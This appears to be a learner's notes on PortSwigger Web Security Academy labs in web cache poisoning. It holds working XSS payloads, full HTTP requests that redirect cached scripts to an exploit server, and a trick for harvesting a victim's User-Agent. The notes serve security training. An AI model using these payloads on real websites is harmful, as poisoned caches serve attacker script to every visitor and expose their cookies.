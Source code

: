 # Web Cache Poisoning

## Unkeyed header
- Use param miner extension to find headers
  - Found that x-Forwarded-Host is reflected in the response
- Used this payload to exploit: `X-Forwarded-Host: "></script><script>alert(document.cookie)</script><script>`

## Unkeyed cookie
- Cookies are not in cache key 
  - Cache key = predefined request components
- Param miner found fehost cookie
- Used this payload to exploit: `Cookie: fehost=x")</script><script>alert(1)</script><script>`

## Multiple headers
- Param miner found X-Forwarded-Proto header
- If you use this it adds a redirect to a url that includes the web dir in the original request
- The website also allowed for X-Forwarded-Host which would change the link
- I sent this request to tracking.js:
```http
GET /resources/js/tracking.js HTTP/2Host: 0a5200060335f34b817d667700130056.web-security-academy.net
Cookie: session=CMTcrvpZEooQ7J39QXbx1HYOk8OlhNwC
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a5200060335f34b817d667700130056.web-security-academy.net/?%3Cscript%3Ealert(1)%3C/script%3E
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Forwarded-Scheme: http
X-Forwarded-Host: exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net
```
- and got this response:
```
HTTP/2 302 Found
Location: https://exploit-0a7a00fd0366f3b28166658101d300c4.exploit-server.net/resources/js/tracking.js
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=30
Age: 3
X-Cache: hit
Content-Length: 0
```
- The X-Cache: hit means that the new link was stored
- The payload on the exploit server was: alert(document.cookie)

- Unknown header
-- Param miner found X-Host header
-- -- This edited the tracking.js link
-- -- Changed exploit server to: /resources/js/tracking.js
-- -- added the payload alert(document.cookie)
-- This works for me, but no solve
-- Found that the Vary header in the response is set to User-Agent
-- The comments allowed for HTML so used: <img src="https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/foo" />
-- -- This made the victim interact with the server
-- -- The victims User-Agent was in the access log
-- Changed the User-Agent in Burp and resent the request

- Unkeyed query string
-- You have to add the Origin header to test since it was a cache buster
-- --  You need a cache buster when you constantly get hits and no misses
-- This solves the lab: /?test=x'/><script>alert(1)</script><

- Unkeyed query parameter
-- utm parameter was Unkeyed
-- This is the payload: /?utm_content='/><script>alert(1)</script><
-- Again Origin was cache buster
-- Take off Origin and click send until it appears

- Parameter cloaking
-- utm parameter was allowed 
-- The geolocate.js was using callback
-- Used this to cloak the change in callback: /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
-- -- Cloaking was needed to avoid the cache keys

- fat GET
-- Found callback in geolocate.js
-- Used this request to get the alert
------------------------------------------------------------------------------------------
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a26003f0429f29e803576e000d8002b.web-security-academy.net
Sec-Ch-Ua: "Not=A?Brand";v="99", "Chromium";v="118"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Sec-Ch-Ua-Platform: "Windows"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: no-cors
Sec-Fetch-Dest: script
Referer: https://0a26003f0429f29e803576e000d8002b.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
X-Http-Method-Override: POST
Content-Length: 17

callback=alert(1)
------------------------------------------------------------------------------------------

- URL Normalization
-- 404 error reflected url
-- You had to poison and immediately send the url to the victim
-- This was the url: https://0a44009203ac0bc18de49d8000e1004b.web-security-academy.net/x</p><script>alert(1)</script><p>

